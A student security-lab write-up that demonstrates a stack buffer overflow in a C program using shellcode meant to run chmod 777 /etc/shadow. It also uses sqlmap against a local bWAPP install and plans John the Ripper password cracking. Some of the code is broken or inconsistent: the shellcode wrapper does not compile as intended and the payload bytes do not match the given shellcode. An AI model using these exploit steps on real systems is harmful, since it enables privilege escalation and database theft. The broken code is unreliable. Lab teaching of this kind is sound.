

# Lab-IS

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

### Description
We will demonstrate a buffer overflow vulnerability in a C program and inject shellcode to escalate privileges by changing the permissions of /etc/shadow to 777. The approach chosen for this attack is code injection. We will compile both the vulnerable C program and the shellcode, then trigger the vulnerability to execute the shellcode.

**1. Compile the vulnerable C program**
We begin by compiling the vulnerable C program with no security protections such as stack canaries or address space layout randomization (ASLR):

``` 
    gcc -fno-stack-protector -z execstack -o vulnerable vulnerable.c
```
**Explanation:**

`-fno-stack-protector`: Disables stack protection mechanisms.

`-z execstack`: Allows the execution of code on the stack, necessary for the shellcode injection.


**2. Compile the shellcode program**

We will now compile the shellcode into an executable binary. This shellcode will execute `chmod 777 /etc/shadow`.

```
    gcc -o shellcode shellcode.c -z execstack
```

**3. Construct the malicious input**

To exploit the buffer overflow, we need to overwrite the return address of the vulnerable program's buffer with the address pointing to the shellcode.

```
    python -c 'print("A" * 20 + "\x90" * 100 + "\x48\x31\xd2...")'
```

**Explanation:**

- `"A" * 20`: Fills the buffer to the overflow point.

- `"\x90" * 100`: A NOP slide to land on the shellcode.

- The shellcode bytes, which execute `chmod 777 /etc/shadow`.

**4. Execute the attack**

Now, we run the vulnerable program with our constructed payload:

`./vulnerable $(python -c 'print("A" * 20 + "\x90" * 100 + "\x48\x31\xd2...")')`

**Output**

Once executed successfully, the permissions of /etc/shadow will be changed to 777, allowing full read, write, and execute permissions.

**Conclusion**: In this demonstration, we successfully exploited a buffer overflow vulnerability by injecting shellcode. The payload caused the chmod 777 /etc/shadow command to execute, demonstrating the privilege escalation attack.

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

- Use them command below to get information about all available databases
```
    run `python3 sqlmap.py -u "http://localhost:80/unsafe_home.php?username=test&Password=test" --dbs
```

- The back-end database is: `MySQL`, it has two database is
  - infomation_schema
  - sqllab_users
**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
